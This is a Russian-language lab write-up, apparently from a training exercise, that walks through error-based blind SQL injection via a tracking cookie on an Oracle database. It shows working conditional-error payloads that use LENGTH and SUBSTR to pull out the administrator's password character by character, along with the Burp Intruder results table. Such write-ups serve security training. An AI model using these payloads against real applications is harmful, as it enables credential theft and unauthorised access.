 
Лабораторная работа содержит уязвимость, связанную со слепым внедрением SQL. Приложение использует файл cookie отслеживания для аналитики и выполняет запрос SQL, содержащий значение отправленного файла cookie.

## Дано

Результаты запроса SQL не возвращаются, и приложение не реагирует по-разному в зависимости от того, возвращает ли запрос какие-либо строки. Если запрос SQL вызывает ошибку, приложение возвращает специальное сообщение об ошибке.

База данных содержит таблицу с именем `users`, и столбцы `username` и `password`. 

## Задача 

- Зайти под учёткой `administrator`

## Разведка

- При вводе неверных данных ловим "Invalid username or password"
- При тестирование слепой инъекции при помощи символа ' 
	Ответ 500 
	При '' ответ 200

- Тестирую при помощи  объединения и || 
	`' || (SELECT NULL) || '` - ответ 500
	`' || (SELECT NULL FROM dual) || '` - ответ 200 
	`' || (SELECT NULL, NULL FROM dual) || '` - ответ 500

-  Используется бд Oracle и мы внедряем в контекст по середине 

- Тестируем `' || (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END FROM dual) || '` - где то я лоханулся
- `TO_CHAR` - нужен в ORACLE при арифметики как тип данных

- Повторное тестирование 
	`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)||'` - ответ 200


# Атака

В форме запроса 
```
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM dual)||' 
```

Мы добавляем указание на таблицу users 
```
'|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE ROWNUM = 1) ||'
```
- ROWNUM = 1 - нужен  для ограничения количества строк, возвращаемых запросом то есть 1 

Добавляем указание что username это administrator
```
'|| (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ||'
```

Добавляем нагрузку по кол символов в пароле 
```
'|| (SELECT CASE WHEN (LENGTH(password)>1) THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ||'
```
**ПАРОЛЬ 20 СИМВОЛОВ**

Добавляем теперь вместо кол кода `SUBSTR(password,chuslo,1)='a'` chuslo-переменная для брута и `a` это символы перебора. Вариант атаки Cluster Bomb
```
'|| (SELECT CASE WHEN (SUBSTR(password,chuslo,1)='a') THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator') ||'
```
500 ответ символ подобран

**ПАРОЛЬ** gt62yd5bf0xtjq1ob69h

|   |   |   |   |   |   |   |   |   |
|---|---|---|---|---|---|---|---|---|
|121|1|g|500|138|false|false|2451||
|382|2|t|500|159|false|false|2451||
|643|3|6|500|183|false|false|2451||
|564|4|2|500|179|false|false|2451||
|485|5|y|500|186|false|false|2451||
|66|6|d|500|124|false|false|2451||
|627|7|5|500|161|false|false|2451||
|28|8|b|500|193|false|false|2451||
|109|9|f|500|193|false|false|2451||
|530|10|0|500|146|false|false|2451||
|471|11|x|500|175|false|false|2451||
|392|12|t|500|152|false|false|2451||
|193|13|j|500|166|false|false|2451||
|334|14|q|500|163|false|false|2451||
|555|15|1|500|141|false|false|2451||
|296|16|o|500|174|false|false|2451||
|37|17|b|500|153|false|false|2451||
|658|18|6|500|129|false|false|2451||
|719|19|9|500|173|false|false|2451||
|160|20|h|500|184|false|false|2451||

